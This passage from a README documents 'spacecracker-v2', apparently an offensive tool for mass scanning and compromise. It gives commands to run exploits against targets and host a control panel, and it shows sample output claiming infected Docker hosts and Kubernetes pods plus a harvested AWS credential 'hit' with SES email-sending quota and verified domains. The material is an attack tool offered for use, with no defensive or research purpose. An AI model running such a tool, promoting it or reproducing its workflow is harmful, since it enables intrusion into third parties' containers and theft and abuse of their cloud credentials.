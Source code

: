 ```bash

# Exploitation only
python cli.py exploit -t target.com -e docker
```

### Web Interface
```bash
# Start web panel
python panel.py --host 0.0.0.0 --port 8080

# Access dashboard
http://localhost:8080
```

### Docker Deployment
```bash
# Build and run
docker build -t spacecracker-v2 .
docker run -p 8080:8080 spacecracker-v2
```

## 📊 Real-time Statistics Output

```
Crack (#2025090503661) stats:
⚙️ Last Update: 2025-09-05 03:27:20
⚙️ Timeout: 20
⚙️ Threads: 5000
⚙️ Status: scanning

ℹ️ Hits: 147
ℹ️ Checked Paths: 1,247,832
ℹ️ Checked URLs: 8,921
ℹ️ Invalid URLs: 234
ℹ️ Total URLs: 9,155/250,000

🐳 Docker Infected: 23
☸️ K8s Pods Infected: 7

⏱️ Progression: 3.66%
⏱️ ETA: 2:34:17

📊 AVG Checks/sec: 1,247
📊 AVG URL/sec: 89
```

## 🔍 Credential Detection Example

```
✨ New AWS Hit (#2025090503661)

👉 USER: AKIA1234567890EXAMPLE
👉 PASS: wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY
🔐 ACCESS LEVEL: Full SES + SNS

📊 3 regions with access

🌍 US-EAST-1:
🤞 STATUS - HEALTHY
📈 QUOTA - (200 per day - 0 sent today - 14 mail/s)
✅ VERIFIED EMAILS: admin@example.com, noreply@example.com
📧 VERIFIED DOMAINS: example.com

```